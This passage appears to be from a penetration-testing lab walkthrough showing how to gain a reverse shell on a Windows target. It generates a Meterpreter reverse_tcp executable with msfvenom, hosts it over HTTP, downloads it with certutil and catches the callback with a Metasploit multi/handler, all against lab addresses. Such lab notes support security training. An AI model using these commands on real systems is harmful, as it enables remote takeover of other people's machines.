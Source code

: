 ### Exploitation

- From the Kali machine, generate a `meterpreter` x64 payload

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.4.2 LPORT=1234 -f exe > payload.exe
```

- Set up a web server to host the payload

```bash
python -m SimpleHTTPServer 80
```

- Download the payload file on the target system using the `certutil` tool in `cmd`

```bash
cd Desktop
certutil -urlcache -f http://10.10.4.2/payload.exe payload.exe
```

- Stop the http server and start `msfconsole` on the Kali machine

```bash
msfconsole -q
```

```bash
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LPORT 1234
set LHOST 10.10.4.2
run
```

- Execute the `payload.exe` on the Win target system and check the reverse shell on Kali 

![](assets/image-20230317215026735.png)
